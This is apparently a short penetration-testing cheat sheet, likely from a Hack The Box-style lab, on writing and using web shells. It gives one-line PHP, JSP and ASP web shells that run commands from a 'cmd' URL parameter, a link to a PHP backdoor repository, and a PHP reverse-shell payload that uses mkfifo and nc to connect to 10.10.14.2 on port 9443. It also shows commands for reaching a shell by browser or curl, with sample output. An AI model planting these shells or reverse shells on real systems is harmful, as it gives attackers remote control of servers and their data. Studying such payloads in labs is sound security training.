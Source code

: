 # Writing A web sehll

# PHP 

https://raw.githubusercontent.com/F-Masood/php-backdoors/main/rce.php

```bash

<?php system($_GET['cmd']); ?>

//or

//<?php echo (shell_exec($_GET['cmd'])); ?>

If you discover you have rce on the website use this command to generate a shell:
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>

```


# jsp

```bash
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

# asp

```bash
<% eval request("cmd") %>
```

# Accessing a web shell
* you can access it through a browser
```bash
http://SERVER_IP:PORT/shell.php?cmd=id
```
[OR]

* You can access it through curl
```bash
Mrwelldone@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
